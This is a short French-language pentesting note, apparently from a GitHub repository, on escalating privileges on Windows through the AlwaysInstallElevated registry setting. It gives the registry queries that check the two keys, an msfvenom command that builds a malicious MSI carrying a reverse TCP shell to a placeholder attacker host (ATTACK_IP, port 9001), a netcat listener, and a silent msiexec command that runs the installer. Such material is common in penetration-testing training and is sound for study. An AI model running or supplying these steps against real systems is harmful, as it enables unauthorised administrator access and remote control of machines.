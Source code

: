 Les fichiers du programme d'installation Windows (`.msi`) sont utilisés pour installer des applications sur le système. Ils s'exécutent généralement avec le niveau de privilèges de l'utilisateur qui les démarre. 

Cela pourrait potentiellement nous permettre de générer un fichier MSI malveillant qui s'exécuterait avec les privilèges d'administrateur.

Cette méthode nécessite la définition de deux valeurs de registre :

```c
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

> [!NOTE] Notez que les deux clés sont définies sur 1 (`0x1`).
> Pour pouvoir exploiter cette vulnérabilité, les deux clés de registre doivent être définis. Dans le cas contraire, l'exploitation ne sera pas possible. 

Si ceux-ci sont définis, vous pouvez générer un fichier `.msi` malveillant :

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACK_IP LPORT=9001 -f msi -o malicious.msi
```

```sh
nc -nlvp 9001
```

Une fois que vous avez transféré le fichier malveillant, vous pouvez exécuter le programme d'installation avec la commande ci-dessous et recevoir le shell inverse :

```C
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

